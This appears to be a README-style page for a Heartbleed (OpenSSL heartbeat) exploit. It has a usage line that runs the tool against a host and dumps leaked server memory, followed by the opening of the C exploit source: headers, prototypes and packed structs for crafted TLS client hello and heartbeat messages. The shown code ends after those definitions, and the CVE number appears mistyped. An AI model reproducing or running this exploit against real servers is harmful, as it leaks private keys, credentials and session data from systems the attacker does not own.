 Usage
-----

       ./cve-2014-160 dvwa.local https && strings data_dump.bin

EXP
---

    #include <stdio.h>
    #include <errno.h>
    #include <sys/types.h>
    #include <stdint.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <arpa/inet.h>
    #include <netdb.h>
    #include <openssl/ssl.h>

    void wait_server_helo_done(int s);
    int write_down(char *src, int len, char *fname);
    int connect_target(const char *name, const char *port);

    /* TYPES: */
    struct helo_message {
      uint8_t handshake_type;
      uint8_t length[3];
      /* anything more? */
    } __attribute__ ((packed));

    struct ext_hb {
      uint16_t type;
      uint16_t length;
      uint8_t  mode;
    } __attribute__ ((packed));

    struct helo_message_client {
      struct helo_message helo_message;
      uint16_t version;
      uint32_t timestamp;
      uint8_t random[28];
      uint8_t sessid_length;
      uint16_t cipher_suites;
      uint16_t ciphers[16];
      uint8_t compression_method_cnt;
      uint8_t compression_methods[1];
      uint16_t extensions_length;
      struct ext_hb extension_hb;
    } __attribute__ ((packed));

    struct heartbeat_message {
      uint8_t type;
      uint16_t length;
      uint8_t payload[2];
      uint8_t padding[16];
    }  __attribute__ ((packed));
